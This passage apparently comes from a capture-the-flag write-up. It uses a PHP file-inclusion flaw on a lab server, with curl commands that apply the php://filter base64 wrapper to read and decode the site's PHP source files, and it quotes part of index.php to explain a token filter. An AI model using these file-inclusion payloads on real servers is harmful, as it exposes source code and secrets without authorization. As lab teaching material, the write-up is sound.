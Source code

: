 Using the above script (or another method), we can now see the decoded PHP source code.

![A screenshot of a command prompt running the command above. The head command is then used to show the beginning of the source code was retrieved. The code can be found directly under ../challenge/website/web/src/index.php.](./imgs/source-curl.png "Running curl and Decoding the Output")

We don't know which file the token is in (and having the code will be useful either way), so let's pull all of the code that we know about. Earlier, we visited `alerts` and `hosts`, and in the `index.php` code we can see a reference to `envHandler.php`. The challenge description mentions `token.php`, but that will fail (we will see that later).

```bash
# All four files to pull
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=index" | base64 -d > index.php
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=alerts" | base64 -d > alerts.php
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=hosts" | base64 -d > hosts.php
curl "http://web.us/php:%252F%252Ffilter/read=convert.base64-encode/resource=envHandler" | base64 -d > envHandler.php
```

Take some time to look over the code, which can be found in full under [../challenge/server](../challenge/server); key sections of`index.php` with added comments explaining the code and the token in `hosts.php` can be found below. The other files will be similarly explained when we tackle the remaining tokens.

```php
//index.php, lines 11-26

# If you tried to access token.php during this step, this section of code blocks it
if (strpos(strtolower($_GET["page"]), 'token') !== false) {
    echo "Sneaky sneaky, but you can't request token.php that way!";
}

# This section loads the default content when no page is specified that we saw in the beginning
else if($_GET["page"] == ""){
    echo "<h1>Internal Web Alerts Page</h1>";
    echo "<p>View Security Alerts: <a href='http://$webhost/alerts?t=Alerts'>Events</a></p>";
    echo "<p>View Other Events: <a href='http://$webhost/alerts?t=Events'>Events</a></p>";
```